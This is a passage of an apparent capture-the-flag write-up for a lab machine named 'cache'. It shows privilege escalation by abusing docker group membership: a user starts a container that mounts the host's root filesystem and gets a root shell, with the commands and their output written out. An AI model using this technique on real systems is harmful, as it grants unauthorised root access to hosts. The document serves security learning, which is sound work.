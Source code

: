 ### Listing the groups for current user
```console
luffy@cache:~$ groups
luffy docker
```

As our user luffy is on docker group, we can create a new docker container and mount the root filesystem on that docker container.

## Listing docker images on the box
```console
luffy@cache:~$ docker image ls -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        12 months ago       64.2MB
luffy@cache:~$ 
```
### Creating a new container with the image id
```console
luffy@cache:~$ docker run -v /:/mnt  -it 2ca708c1c9cc bash
root@0079b4fb2425:/# 
```
Here we created a new container from the ubuntu image and mounted the root filesystem **/** to container's **/mnt** and with flag `-it`, we opened a interactive session running `bash` inside the container.

### Listing the file contents in /mnt
```console
root@0079b4fb2425:/# ls -la /mnt
total 1645668
drwxr-xr-x  23 root root       4096 Jul  9 09:26 .
drwxr-xr-x   1 root root       4096 Sep 30 13:12 ..
drwxr-xr-x   2 root root       4096 Jul  9 09:24 bin
drwxr-xr-x   3 root root       4096 Sep 16 09:30 boot
drwxr-xr-x  18 root root       3900 Sep 30 12:15 dev
drwxr-xr-x  99 root root       4096 Jul  9 09:26 etc
drwxr-xr-x   4 root root       4096 Sep 17  2019 home
lrwxrwxrwx   1 root root         34 Jul  9 09:26 initrd.img -> boot/initrd.img-4.15.0-109-generic
lrwxrwxrwx   1 root root         33 Jul  9 09:26 initrd.img.old -> boot/initrd.img-4.15.0-99-generic
drwxr-xr-x  22 root root       4096 Sep 18  2019 lib
drwxr-xr-x   2 root root       4096 Jul  9 09:26 lib64
drwx------   2 root root      16384 Sep 17  2019 lost+found
drwxr-xr-x   2 root root       4096 Feb 14  2019 media
drwxr-xr-x   2 root root       4096 Feb 14  2019 mnt
drwxr-xr-x   3 root root       4096 Sep 18  2019 opt
dr-xr-xr-x 192 root root          0 Sep 30 12:15 proc
drwx------   6 root root       4096 Sep 16 11:06 root
drwxr-xr-x  31 root root       1040 Sep 30 12:17 run
drwxr-xr-x   2 root root      12288 Jul  9 09:24 sbin
drwxr-xr-x   4 root root       4096 Sep 17  2019 snap
drwxr-xr-x   2 root root       4096 Feb 14  2019 srv
-rw-------   1 root root 1685061632 Sep 17  2019 swap.img
dr-xr-xr-x  13 root root          0 Sep 30 12:35 sys
drwxrwxrwt  12 root root       4096 Sep 30 13:12 tmp
drwxr-xr-x  10 root root       4096 Feb 14  2019 usr
drwxr-xr-x  14 root root       4096 Sep 17  2019 var
lrwxrwxrwx   1 root root         31 Jul  9 09:26 vmlinuz -> boot/vmlinuz-4.15.0-109-generic
lrwxrwxrwx   1 root root         30 Jul  9 09:26 vmlinuz.old -> boot/vmlinuz-4.15.0-99-generic
```
We can see that our whole root filesystem is mounted here.
